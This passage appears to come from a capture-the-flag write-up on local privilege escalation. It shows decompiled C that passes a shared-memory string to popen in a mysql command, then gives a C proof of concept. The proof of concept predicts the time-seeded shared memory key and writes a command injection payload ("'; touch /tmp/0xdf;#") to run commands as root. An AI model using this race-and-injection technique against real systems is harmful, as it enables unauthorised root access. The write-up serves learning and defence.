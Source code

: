 ```
            }
            else {
              snprintf(cmd_buffer,(long)(resp + 1),
                       "mysql -u %s -D %s -s -N -e \'select email from teampass_users where pw = \"% s\"\'"
                       ,DB_USER,DB_NAME,str);
              __stream = popen(cmd_buffer,"r");

```

Then it runs the command with `popen`.

### Exploit

#### Strategy

The program writes a string to a shared memory buffer, sleeps for one second, and then uses that buffer to craft a command sent to `popen`. If I can change that memory, I can command inject to run arbitrary commands as root.

I’ll note that when the shared memory is requested, it uses the flags 0x3b6, which is 0o1666:

```

>>> oct(0x3b6)
'0o1666'

```

That’s writable by any user.

#### POC

I’ll write a program in C that will seed the random number generator the same way that `check_leak` does, and generate the same random number, and write a command injection payload into the file.

```

#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <sys/shm.h>

int main() {
    time_t now = (unsigned int) time(NULL);
    srand(now);
    int key = rand() % 0xfffff;
    int shmid = shmget(key, 0x400, 0x3b6);
    char *h_shm = shmat(shmid, (void *) 0, 0);
    snprintf(h_shm, 0x400, "Leaked hash detected at whenever > '; touch /tmp/0xdf;#");
    shmdt(h_shm);
}

```
